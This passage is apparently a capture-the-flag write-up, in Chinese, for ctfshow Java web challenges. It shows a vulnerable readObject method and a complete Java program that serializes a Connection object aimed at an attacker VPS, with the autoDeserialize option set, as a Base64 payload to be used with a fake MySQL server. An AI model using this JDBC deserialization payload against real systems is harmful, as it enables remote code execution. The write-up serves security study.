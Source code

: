 ```java  
```java  
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, SQLException {  
        Class.forName(&#34;com.mysql.jdbc.Driver&#34;);  
        ObjectInputStream.GetField gf = in.readFields();  
        String host = (String) gf.get(&#34;host&#34;, &#34;127.0.0.1&#34;);  
        int port = (int) gf.get(&#34;port&#34;,3306);  
        User user = (User) gf.get(&#34;user&#34;,new User(&#34;root&#34;,&#34;root&#34;));  
        String database = (String) gf.get(&#34;database&#34;, &#34;ctfshow&#34;);  
        String schema = (String) gf.get(&#34;schema&#34;, &#34;jdbc:mysql&#34;);  
        DriverManager.getConnection( schema&#43;&#34;://&#34;&#43;host&#43;&#34;:&#34;&#43;port&#43;&#34;/?&#34;&#43;database&#43;&#34;&amp;user=&#34;&#43;user.getUsername());  
    }  
```  
直接进行 JDBC 反序列化  
利用工具 https://github.com/fnmsd/MySQL_Fake_Server  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.Connection;    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
    
public class Vuln{    
    public static void main(String[] args) throws Exception{    
        Connection connection = new Connection();    
        setFieldValue(connection,&#34;host&#34;,&#34;124.220.215.8&#34;); //vps 地址    
        setFieldValue(connection,&#34;port&#34;,3300); //vps端口    
        setFieldValue(connection,&#34;user&#34;,new User(&#34;huahua&#34;,&#34;1&#34;));    
        setFieldValue(connection,&#34;schema&#34;,&#34;jdbc:mysql&#34;);    
        setFieldValue(connection,&#34;database&#34;,&#34;detectCustomCollations=true&amp;autoDeserialize=true&#34;);    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream ois = new ObjectOutputStream(baos);    
        ois.writeObject(connection);    
    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
    }    
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {    
        Field field = obj.getClass().getDeclaredField(fieldName);    
        field.setAccessible(true);    
        field.set(obj, value);    
    }    
    
}  
```  
### Reference  
https://tttang.com/archive/1877/#toc_2serverstatusdiffinterceptor  
https://xz.aliyun.com/t/8159  
## Web857  
- javax.servlet-api 4.0.1  
- mysql-connector-java 5.1.39  
- postgresql 42.3.1  
其中postgresql 42.3.1存在漏洞  
https://forum.butian.net/share/1339  